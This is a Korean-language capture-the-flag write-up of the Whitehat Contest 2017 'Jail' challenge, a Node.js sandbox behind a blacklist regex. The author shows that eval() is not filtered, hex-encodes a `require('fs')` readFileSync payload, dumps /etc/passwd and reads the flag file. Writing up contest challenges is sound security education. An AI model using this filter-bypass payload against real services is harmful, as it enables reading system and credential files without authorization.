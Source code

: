 # Whitehat Contest 2017 - [misc] Jail

### Description

> nc challenges.whitehatcontest.kr 5959

<br>

### Analysis

바로 nc로 붙어보니 `hint, quit` 문구가 보인다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> 
```

<br>

hint를 입력해보니 다음과 같이 RegExp 정규 표현식 안에 문자열이 쭈르륵 나열되었다. 음?

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```

<br>

아무 문자열이나 입력해보았다.

리스트에 포함되지 않는 문자는 hm..이라는 응답이 오고

포함되는 문자는 nop 응답이 돌아오는 것으로 보아 필터링인 것을 알 수 있었다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> test
hm..

$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> os
nop
```

<br>

그러나 많은 필터링 리스트에 eval() 함수가 빠져있다.

eval() 함수 + 인코딩으로 필터링 우회가 가능할 것 같다.

<br>

### Exploit

[node.js][node.js] API 문서를 참고해보니 readFileSync() 함수를 사용하여 js 파일 시스템에 접근이 가능했다.

파일 시스템 접근을 위해 'fs' 모듈을 임포트 해줘야 하므로 with 함수와 require를 함께 사용했다.

> query:  with(require('fs')){readFileSync('/etc/passwd')}
>
> encoded:  \x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d")
your input root:x:0:0:root:/root:/bin/ash
.
.
.
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
jail:x:1001:1001:Linux User,,,:/home/jail:
```

<br>

눈에 익은 계정이 하나 보인다. 

계정 디렉터리 아래 플래그가 있는지 확인해보았다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

flag is

**easy~esay!easy?_Jav4-scr1pt~yay**



[node.js]: https://nodejs.org/api/fs.html
